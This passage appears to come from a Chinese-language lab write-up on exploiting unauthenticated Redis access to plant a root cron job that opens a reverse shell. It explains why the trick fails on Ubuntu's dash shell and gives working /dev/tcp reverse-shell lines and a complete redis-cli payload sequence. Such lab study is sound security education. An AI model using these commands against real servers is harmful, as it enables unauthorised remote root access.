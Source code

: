 ::: tip
- 由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败
- ubuntu下执行定时任务使用的shell是/bin/sh指向**dash**，而**dash**并不支持**bash -i**，导致命令执行失败
:::

失败报错：`/bin/sh: 1: /bin/bash -i >& /dev/tcp/192.168.0.106/7777 0>&1: not found`

可以知道ubuntu执行定时任务使用的shell是`/bin/sh`

```bash
gzctf@ubuntu:~$ ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Mar 23  2022 /bin/sh -> dash
```

又可以知道ubuntu的`/bin/sh`指向了`dash`

了解一下，`dash`是什么

> dash 是 Ubuntu 和许多其他 Linux 发行版上的默认系统 shell，尤其是在脚本执行时，如：定时任务。它比 bash 更加轻量，并且兼容性有所差异。bash -i 代表启动一个交互式 shell，而 dash 不支持 -i 选项，因为它不需要启动交互式 shell

所以，`dash`在执行定时任务里的`bash -i ...`不会成功执行。centos可以成功执行是因为centos执行定时任务使用的shell是`/bin/bash`

![12](https://the0n3.top/medias/redis未授权访问控制漏洞/12.png)

失败原因及两种解决方案：


师傅博客：[解决ubuntu crontab反弹shell失败的问题](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)

![13](https://the0n3.top/medias/redis未授权访问控制漏洞/13.png)

两种解决方案：

- 给ubuntu的`dash`打个软连接到`/bin/sh`(bash)，曲线救国
- 使用`/bin/bash -c`代替`bash -i`

#### 改变ubuntu执行定时任务的默认shell


改变ubuntu执行定时任务的默认shell`/bin/sh`改为`bash`

```bash
sudo ln -s -f bash /bin/sh
```

漏洞复现可以改回`dash`

```bash
sudo ln -s -f dash /bin/sh
```

```bash
./redis-cli -h 192.168.237.140 -p 6379

# 每分钟反弹一次
set shell "\n* * * * * bash i >& /dev/tcp/192.168.237.1/4444 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```
